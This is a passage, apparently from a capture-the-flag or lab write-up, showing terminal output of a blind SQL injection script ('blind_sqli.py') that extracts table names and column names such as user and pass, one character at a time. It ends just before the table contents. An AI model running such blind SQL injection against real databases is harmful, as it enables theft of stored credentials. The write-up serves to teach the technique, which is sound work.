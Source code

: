 ```python
    if not found_char:
        break
```

### Table names

`LIMIT 1 OFFSET 0`

```text
$ python blind_sqli.py
[+] s
[+] st
[+] sta
[+] stat
[+] stats
```
`LIMIT 1 OFFSET 1`
```text
$ python blind_sqli.py
[+] d
[+] da
[+] dat
[+] data
[+] datab
[+] databa
[+] databas
[+] database
```

### Column names for stats table

`LIMIT 1 OFFSET 0`
```text
$ python blind_sqli.py
[+] u
[+] us
[+] use
[+] user
```
`LIMIT 1 OFFSET 1`
```text
$ python blind_sqli.py
[+] p
[+] pa
[+] pas
[+] pass
```
`LIMIT 1 OFFSET 2`
```text
$ python blind_sqli.py
[+] t
[+] ti
[+] tim
[+] time
```  
We finally get the entire `stats` table:  
